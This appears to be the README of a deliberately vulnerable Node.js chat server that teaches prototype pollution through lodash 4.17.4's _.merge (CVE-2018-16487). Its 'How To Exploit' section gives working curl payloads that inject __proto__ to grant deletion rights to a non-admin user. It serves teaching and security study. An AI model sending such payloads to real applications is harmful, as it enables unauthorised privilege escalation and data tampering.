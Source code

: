 # Prototype Pollution in JavaScript

Prototype Pollution is a vulnerability affecting JavaScript. Prototype Pollution refers to the ability to inject properties into existing JavaScript language construct prototypes, such as objects. JavaScript allows all Object attributes to be altered, including their magical attributes such as `__proto__`, `constructor` and `prototype`. An attacker manipulates these attributes to overwrite, or pollute, a JavaScript application object prototype of the base object by injecting other values. Properties on the `Object.prototype` are then inherited by all the JavaScript objects through the prototype chain. When that happens, this leads to either denial of service by triggering JavaScript exceptions, or it tampers with the application source code to force the code path that the attacker injects, thereby leading to remote code execution.

## Example Application

This is example chat server vulnerable to Prototype Pollution.

- `GET /` - List all messages (available without authentication).
  ```bash
  curl --request GET --url http://localhost:3000/
  ```
- `PUT /` - Post a new message (only registered users).
  ```bash
  curl --request PUT \
    --url http://localhost:3000/ \
    --header 'content-type: application/json' \
    --data '{"auth": {"name": "user", "password": "pwd"}, "message": {"text": "Hi!"}}'
  ```
- `DELETE /` - Delete a message (only administrators).
  ```bash
  curl --request DELETE \
    --url http://localhost:3000/ \
    --header 'content-type: application/json' \
    --data '{"auth": {"name": "admin", "password": "???"}, "messageId": 2}'
  ```

An attacker target here is to delete message without administrator credentials.

## Run

- `npm install`
- `npm start`

## Vulnerability

The Prototype Pollution vulnerability (CVE-2018-16487) introduced by [lodash@4.17.4](https://www.npmjs.com/package/lodash/v/4.17.4) via `_.merge()` function. More details about the issue you can find on [Snyk website](https://snyk.io/vuln/SNYK-JS-LODASH-73638).

## How To Exploit

1. Send evil message with `__proto__`.
   ```bash
   curl --request PUT \
     --url http://localhost:3000/ \
     --header 'content-type: application/json' \
     --data '{"auth": {"name": "user", "password": "pwd"}, "message": { "text": "😈", "__proto__": {"canDelete": true}}}'
   ```
2. Delete any message you want using user's credentials.
   ```bash
   curl --request DELETE \
     --url http://localhost:3000/ \
     --header 'content-type: application/json' \
     --data '{"auth": {"name": "user", "password": "pwd"}, "messageId": 1}'
   ```
